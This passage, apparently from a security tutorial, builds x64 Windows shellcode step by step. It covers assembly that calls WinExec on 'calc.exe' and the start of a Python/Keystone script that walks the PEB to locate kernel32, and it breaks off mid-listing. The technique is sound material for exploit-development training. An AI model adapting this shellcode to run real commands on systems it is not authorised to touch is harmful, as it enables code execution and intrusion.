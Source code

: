 ### Call WinExec

Once the address of the function is stored in the `R14` register, WinExec can be called. This function requires the following input parameters, taken from the [Microsoft documentation](https://learn.microsoft.com/en-gb/windows/win32/api/winbase/nf-winbase-winexec){:target="_blank"}.

```cpp
UINT WinExec(
  [in] LPCSTR lpCmdLine,
  [in] UINT   uCmdShow
);
```
Where:

* `lpCmdLine` will contain the command we want to execute.
* Following the [documentation](https://learn.microsoft.com/en-us/windows/desktop/api/winuser/nf-winuser-showwindow){:target="_blank"}, `uCmdShow` will be set to 1, as we want to have a visible window.

<img src="{{ site.url }}{{ site.baseurl }}/images/2024-05-01_18-14.png" alt="">

Since the function only accepts two input parameters, as seen in the [calling conventions](#calling-conventions) section, we will only need to utilize the `RCX` and `RDX` registers.

```
# WinExec Call
"  xor rax, rax;"                   # Zero RAX to create a null byte
"  push rax;"                       # Push the null byte onto the stack, acts as string terminator for "calc.exe"
"  mov rax, 0x6578652E636C6163;"    # Move the reverse byte-order string 'calc.exe' into RAX
"  push rax;"                       # Push the string 'calc.exe' onto the stack (Note: string must be reversed in memory)
"  mov rcx, rsp;"                   # Set RCX to point to the string "calc.exe" on the stack, RCX is the first argument for WinExec
"  xor rdx, rdx;"                   # Zero out RDX, preparing it for the next operation
"  inc rdx;"                        # Set RDX to 1; this sets uCmdShow parameter for WinExec to SW_SHOWNORMAL
"  sub rsp, 0x20;"                  # Allocate 32 bytes of shadow space on the stack to prevent overwriting during the call
"  call r14;"                       # Call WinExec using the address stored in R14
```

Our code so far:

```python
import ctypes, struct
import os
import subprocess
from keystone import *
 
def main():
    SHELLCODE = (
        " start: "
        "   int3;"                          # Breakpoint
        "  sub rsp, 0x208;"                 # Free up space in the stack
        " locate_kernel32:"
        "   xor rcx, rcx;"                  # Null RCX content
        "   mov rax, gs:[rcx + 0x60];"      # +0x060 PEB
        "   mov rax, [rax + 0x18];"         # +0x018 PEB.Ldr
        "   mov rsi, [rax + 0x20];"         # +0x020 PEB.Ldr.InMemoryOrderModuleList
        "   lodsq;"                         # Loads qword from RSI into RAX
        "   xchg rax, rsi;"                 # Swap RAX & RSI
        "   lodsq;"                         # Loads qword from RSI into RAX
        "   mov rbx, [rax + 0x20] ;"        # RBX = Kernel32 base address
        "   mov r8, rbx; "                  # Copy Kernel32 base address to R8 register
        "   mov ebx, [rbx+0x3C]; "          # Get offset to the PE header from the DOS header at offset 0x3C
```